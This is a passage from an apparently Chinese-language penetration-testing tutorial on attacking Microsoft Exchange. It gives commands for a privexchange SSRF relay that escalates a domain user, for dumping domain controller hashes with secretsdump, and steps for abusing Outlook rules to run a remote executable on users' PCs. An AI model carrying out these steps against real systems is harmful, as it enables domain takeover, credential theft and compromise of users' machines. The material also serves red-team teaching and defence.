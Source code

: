 **发起ssrf的攻击测试**，

python privexchange.py -ah 10.0.0.127 -u test -d test.com 10.0.0.237

其中ah指定中继的主机，后面指定exchange的域名或者IP。

[![](https://p2.ssl.qhimg.com/t01ded34de26992ea46.png)](https://p2.ssl.qhimg.com/t01ded34de26992ea46.png)

图38

收到回调信息

[![](https://p0.ssl.qhimg.com/t01c2d725b9cd489d5e.png)](https://p0.ssl.qhimg.com/t01c2d725b9cd489d5e.png)

图39

测试成功便会收到exchange server带凭证的请求，利用该权限即可**提升test用户实现控制域**。

[![](https://p0.ssl.qhimg.com/t01b225e6a0001d4031.png)](https://p0.ssl.qhimg.com/t01b225e6a0001d4031.png)

图40

最后我们可以导出域控的hash

python secretsdump.py test.com/[test@10.0.0](mailto:test@10.0.0).158 -just-dc

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t019ec227c2b363eda1.png)

图41



## 八、Rules利用

通过上述手段我们可以获取exchange相关权限，若我们想**对每个账号的使用人进行横向控制**，便可利用Rules and Alerts给指定账号创建规则，若客户端使用out look，将允许其下次登入时执行这些规则，从而**获取使用者pc权限**。

使用工具创建规则，运行远程文件执行，相关参数参考如下：

[![](https://p5.ssl.qhimg.com/t0177ec9ff3194ca4c5.jpg)](https://p5.ssl.qhimg.com/t0177ec9ff3194ca4c5.jpg)

图42

创建规则，触发关键字为shelltest。

[![](https://p2.ssl.qhimg.com/t01b9c771d2b5088770.jpg)](https://p2.ssl.qhimg.com/t01b9c771d2b5088770.jpg)

图43

创建成功后需**使用指定关键字进行触发**。我们可以给邮箱发送包含关键字的邮件主题，触发执行1.exe，如使用ruler发送带关键字的邮件。

[![](https://p4.ssl.qhimg.com/t0170b72c1ceacf23af.jpg)](https://p4.ssl.qhimg.com/t0170b72c1ceacf23af.jpg)

图44
